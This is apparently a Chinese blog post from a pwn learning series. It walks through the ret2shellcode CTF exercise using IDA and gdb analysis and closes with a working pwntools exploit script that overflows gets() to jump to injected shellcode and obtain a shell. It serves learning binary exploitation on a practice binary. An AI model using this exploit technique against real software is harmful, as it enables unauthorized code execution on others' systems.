 ```yaml
---
layout:     post
title:      pwn学习（二）：栈溢出注入shellcode
subtitle:   利用栈溢出获取控制权
date:       2021-08-08
author:     Hongtai S
header-img: img/5.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - pwn
    - shellcode
---
```

# 栈溢出注入shellcode#

## ret2shellcode题目分析 ##

将文件ret2shellcode拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/08/i3YNMK2IVwse6l9.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

程序中没有能够进入shell的函数，但是构造了一个环境变量buf2，存放在bbs区。检查程序有没有开PIE，说明每次运行bbs区都不会改变地址。

![2.PNG](https://i.loli.net/2021/08/08/JRdMm8bkKG2wLFa.png)

因此可以利用这个缓冲区承载shellcode并执行，而strncpy函数刚好可以将gets接受的内存复制到缓冲区，覆盖的跳转地址即为buf2的基址。利用Ida查看buf2的基址是0x0804A080：

![3.PNG](https://i.loli.net/2021/08/08/5DKWZgBxSlCLeTR.png)

gdb动态调试验证：

到gets()函数，输入字符串AAAA后查看栈中情况：

![4.PNG](https://i.loli.net/2021/08/08/cdMVUWjxl9n7wFR.png)

可以看到栈中字符串的首地址为0xffffd12c，ebp的首地址为0xffffd198，他们之间的距离为0xffffd12c-0xffffd198 = 108，算上ebp需要填充的字符为b'A' * 108 + 'B' * 4，左后在加上跳转的地址即可改变程序的执行流。但是此时发现程序无处可跳转，因为没有获取shell的命令，因此利用buf2写入获取shell的命令，跳转到buf2的基址即可，而填充栈的字符中刚好可以将shellcode写入栈，因此填充字符的前半部分改为获取shell的shellcode，然后填充至112字符即可。

![5.PNG](https://i.loli.net/2021/08/08/9KksiCUj2ZJXmHY.png)

## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2shellcode")

#接受程序的一行打印
io.recvline()

#获取能够获得shell的二进制代码
shellcode = asm(shellcraft.sh())

#构造payload,用ljust函数帮助填充shellcode至112个字符大小
payload = shellcode.ljust(112, b'A') + p32(0x0804A080)

#发送构造的数据
io.sendline(payload)

#获取shell交互
io.interactive()

```

运行脚本成功获取shell权限
![6.PNG](https://i.loli.net/2021/08/08/xOerPU2sqiYw1nD.png)



